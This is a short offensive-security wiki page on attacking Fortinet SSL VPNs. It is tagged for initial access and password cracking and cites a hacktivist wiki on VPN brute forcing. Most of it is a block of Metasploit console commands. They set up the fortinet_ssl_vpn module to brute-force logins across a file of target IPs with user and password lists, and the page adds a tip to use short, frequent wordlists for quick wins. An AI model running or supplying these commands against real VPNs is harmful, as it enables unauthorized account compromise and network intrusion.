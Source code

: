 # Fortinet

Search Tag(s): #initial-access #exploitation #password-cracking #network-protocols #internet-of-things #metasploit-framework

> [!NOTE] Slow Bruteforce
> Since bruteforcing may take a long time. Use a shorter and most frequent [[wordlists|Helpers]] to find low hanging fruit.

TODO: Fill this info

```
msf > use auxiliary/scanner/http/fortinet_ssl_vpn

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set RHOSTS file:ip_targets.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) >set RPORT <PORT>

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set USER_FILE users.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set PASS_FILE passwords.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set threads 10

msf auxiliary(scanner/http/fortinet_ssl_vpn) > run
```

---
## References

- [Enlace Hacktivista: VPN brute forcing](https://enlacehacktivista.org/index.php?title=VPN_brute_forcing)